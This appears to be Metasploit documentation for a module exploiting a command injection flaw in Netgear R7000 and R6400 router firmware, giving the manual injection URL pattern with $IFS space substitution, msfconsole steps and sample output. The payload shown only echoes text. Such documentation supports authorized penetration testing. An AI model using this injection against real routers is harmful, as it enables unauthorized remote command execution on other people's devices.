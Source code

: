 The netgear_r7000_command_injection module exploits a command injection vulnerability in Netgear R7000 and R6400 router firmware version `1.0.7.2_1.1.93` and possibly earlier. The vulnerability is found in the `/cgi-bin/` folder of the router. A manual injection would look like so: `http://<RouterIP>/cgi-bin/;echo$IFS"cowsay"`. This will echo 'cowsay' on the router. 


## Vulnerable Application

Netgear R7000 and R6400 routers running firmware version `1.0.7.2_1.1.93` and possibly earlier.

## Verification Steps

  1. Start msfconsole
  2. Do: `use auxiliary/scanner/http/netgear_r7000_command_injection`
  3. Do: `set RHOST <RouterIP>`
  4. Do: `set CMD "Command to execute"`
  5. Do: `run`
  6. If the router is running the vulnerable firmware, the command should run.

## Options

  **RHOST**

  This should usually be the local IP address of the vulnerable router.

  **CMD**

  This is the command to execute on the router. If you input spaces, they will be converted to `$IFS` when running the command.

## Scenarios

  Sample output of what it should look like. 

  ```
  msf > use auxiliary/scanner/http/netgear_r7000_command_injection
msf auxiliary(netgear_r7000_command_injection) > options

Module options (auxiliary/scanner/http/netgear_r7000_command_injection):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD                       yes       Command line to execute
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                     yes       The remote target address
   RPORT    80               yes       The target port
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host

msf auxiliary(netgear_r7000_command_injection) > set CMD echo "cowsay"
CMD => echo 'cowsay'
msf auxiliary(netgear_r7000_command_injection) > set RHOST 192.168.1.1
RHOST => 192.168.1.1
msf auxiliary(netgear_r7000_command_injection) > check
[*] 192.168.1.1:80 The target service is running, but could not be validated. 
msf auxiliary(netgear_r7000_command_injection) > run

[*] Sending request to 192.168.1.1
[*] Auxiliary module execution completed
msf auxiliary(netgear_r7000_command_injection) > 
  ```


